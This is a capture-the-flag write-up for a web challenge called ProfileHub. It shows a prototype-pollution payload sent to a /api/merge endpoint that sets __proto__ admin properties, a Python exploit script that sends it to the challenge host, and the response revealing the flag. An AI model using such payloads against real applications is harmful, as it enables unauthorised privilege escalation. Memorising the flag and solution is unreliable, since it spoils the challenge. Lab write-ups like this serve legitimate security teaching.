

## **Challenge Overview**

**Name:** ProfileHub
**Category:** Web Exploitation  
**Difficulty:** Hard
**Points**: 500
###### Challenge Description

ProfileHub v2.4.1 is a sleek profile management app built with cutting-edge WebAssembly technology. The developers are particularly proud of their client-side input validator -- a custom WASM module that sanitizes everything before it reaches the server. They claim no malicious data can slip through. The admin panel holds something valuable, but only administrators can see it. Can you find a way past the defenses?

---



**Profile Merge Utility (`/api/merge`)**
- Accepts two JSON objects:
    - `base`
    - `override`
- **Profile API (`/api/profile`)**
    - Returns user profile data.
    - Includes sensitive data (flag) only if the user is an administrator.
- **Client-side WASM Validator**
    - Validates input before submission.
    - Ensures inputs are printable ASCII.

payload
```payload
{
  "base": {},
  "override": {
    "__proto__": {
      "isAdmin": true,
      "admin": true,
      "role": "admin"
    }
  }
}
```
#### **Effect**

All objects in the application inherit:
obj.isAdmin === true  
obj.role === "admin"

**Exploit Script**
```python
cat exploit.py 
import requests

TARGET = "http://chall-b97ab227.evt-246.glabs.ctf7.com"

payload = {
    "base": {},
    "override": {
        "__proto__": {
            "isAdmin": True,
            "admin": True,
            "role": "admin"
        }
    }
}

print("[*] Sending improved pollution payload...")

requests.post(f"{TARGET}/api/merge", json=payload)

print("[*] Fetching profile API...")

r = requests.get(f"{TARGET}/api/profile")
print("\n[+] Profile response:\n")
print(r.text)

```


#### Result of the Request:

```result
python3 exploit.py 
[*] Sending improved pollution payload...
[*] Fetching profile API...

[+] Profile response:

{"role":"admin","message":"Welcome, administrator.","flag":"ctf7{w4sm_pr0t0_p0llut10n_ch41n_9355284f}"}

```

**flag:**

```
ctf7{w4sm_pr0t0_p0llut10n_ch41n_9355284f}
```

---
